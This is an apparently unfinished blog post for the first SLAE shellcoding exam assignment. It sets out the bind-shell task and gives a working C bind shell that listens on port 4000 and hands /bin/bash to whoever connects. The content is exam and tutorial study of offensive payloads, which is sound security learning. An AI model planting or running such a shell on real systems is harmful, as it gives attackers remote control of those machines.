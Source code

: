 ```yaml
---
title: SLAE exam assignment 01
author: Stipe Marinovic
date: 2020-05-17 20:00:00 +0800
categories: [Blogging, Tutorial]
tags: [slae, shellcoding]
toc: true
---
```



... page still under construction ...  

# Assignment 01 #

* Create a Shell_Bind_TCP shellcode
  - Binds to a port
  - Execs Shell on incoming connection
* Port number should be easily configurable

# Syscalls #

To get idea how bind shell works and which syscalls are used, we can create bind shell code in C. After a bit of research, the simplest bind shell is following:
```
#include <stdio.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

int socketfd; 
int socketid; 

int main() { 

  // Define struct containing bind() arguments
  struct sockaddr_in server; 
   
  // Create socket 
  socketfd = socket(PF_INET, SOCK_STREAM, 0); 

  // Setup struct "server" containing following information: address, port and address family
  server.sin_addr.s_addr = htonl(INADDR_ANY); // any address (0.0.0.0)
  server.sin_port = htons(4000);              // port 4000
  server.sin_family = AF_INET;                // address family (ip v4)

  // Bind socket to ip 0.0.0.0, port 4000 
  bind(socketfd, (struct sockaddr*) &server, sizeof(server)); 

  // Listen for incoming connections 
  listen(socketfd, 2); 

  // Accept incoming connection 
  socketid = accept(socketfd, NULL, NULL); 

  // Bind STDIN (0), STDOUT (1), STDERR (2) to incoming connection 
  dup2(socketid, 0); 
  dup2(socketid, 1); 
  dup2(socketid, 2); 

  // Run /bin/bash shell 
  execve("/bin/bash", NULL, NULL); 
} 
```

